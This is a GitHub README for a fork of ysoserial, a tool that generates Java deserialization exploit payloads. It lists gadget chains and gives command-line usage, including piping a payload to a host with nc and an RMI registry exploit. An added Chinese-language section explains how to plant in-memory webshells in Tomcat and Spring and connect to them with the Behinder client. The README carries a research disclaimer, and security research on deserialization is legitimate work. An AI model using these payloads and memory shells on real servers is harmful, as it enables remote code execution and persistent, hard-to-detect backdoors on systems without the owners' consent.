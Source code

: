 
# ysoserial

[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Travis Build Status](https://api.travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Appveyor Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        https://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
三月 25, 2022 2:59:49 下午 org.reflections.Reflections scan
信息: Reflections took 63 ms to scan 1 urls, producing 19 keys and 159 values
     Payload               Authors                                Dependencies
     -------               -------                                ------------
     AspectJWeaver         @Jang                                  aspectjweaver:1.9.2, commons-collections:3.2.2
     BeanShell1            @pwntester, @cschneider4711            bsh:2.0b5
     C3P0                  @mbechler                              c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Click1                @artsploit                             click-nodeps:2.3.0, javax.servlet-api:3.1.0
     Clojure               @JackOfMostTrades                      clojure:1.8.0
     CommonsBeanutils1     @frohoff                               commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsBeanutils1NOCC @Y4er                                  commons-beanutils:1.9.2
     CommonsCollections1   @frohoff                               commons-collections:3.1
     CommonsCollections2   @frohoff                               commons-collections4:4.0
     CommonsCollections3   @frohoff                               commons-collections:3.1
     CommonsCollections4   @frohoff                               commons-collections4:4.0
     CommonsCollections5   @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6   @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7   @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1           @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1               @frohoff                               groovy:2.3.9
     Hibernate1            @mbechler
     Hibernate2            @mbechler
     JBossInterceptors1    @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient            @mbechler
     JRMPListener          @mbechler
     JSON1                 @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1        @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21               @frohoff
     Jython1               @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1         @matthias_kaiser                       js:1.7R2
     MozillaRhino2         @_tint0                                js:1.7R2
     Myfaces1              @mbechler
     Myfaces2              @mbechler
     ROME                  @mbechler                              rome:1.0
     Spring1               @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2               @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS                @gebl
     Vaadin1               @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1               @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

## 内存马相关

着重修改`ysoserial.payloads.util.Gadgets.createTemplatesImpl`使其可以通过引入自定义class的形式来执行命令、内存马、反序列化回显。

以CommonsBeanutils1NOCC为例：

```shell
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatCmdEcho"                     # TomcatCmdEcho
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatServletMemShellFromJMX"      # TomcatServletMemShellFromJMX
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatFilterMemShellFromJMX"       # TomcatFilterMemShellFromJMX     适用于tomcat7-9
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:TomcatFilterMemShellFromThread"    # TomcatFilterMemShellFromThread  适用于tomcat7-9
java -jar ysoserial.jar CommonsBeanutils1NOCC "CLASS:SpringInterceptorMemShell"         # SpringInterceptorMemShell       测试于springboot2.0.9.RELEASE 链接shell需要使用存在的路由
java -jar ysoserial.jar CommonsBeanutils1NOCC "FILE:E:\Calc.class"                      # ClassLoaderTemplate
java -jar ysoserial.jar CommonsBeanutils1NOCC "CMD:calc"                                # CommandTemplate
java -jar ysoserial.jar CommonsBeanutils1NOCC "calc"                                    # CommandTemplate                 不使用协议开头则默认为CMD:
```

shell连接使用请查看指定类。解决了request和response包装类导致冰蝎链接失败的问题。

以下受到Gadgets.createTemplatesImpl影响的gadget均需要如上方式传递参数：

1. Click1
2. CommonsBeanutils1
3. CommonsBeanutils1NOCC
4. CommonsCollections2
5. CommonsCollections3
6. CommonsCollections4
7. Hibernate1
8. JavassistWeld1
9. JBossInterceptors1
10. Jdk7u21
11. JSON1
12. MozillaRhino1
13. MozillaRhino2
14. ROME
15. Spring1
16. Spring2
17. Vaadin1


## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization
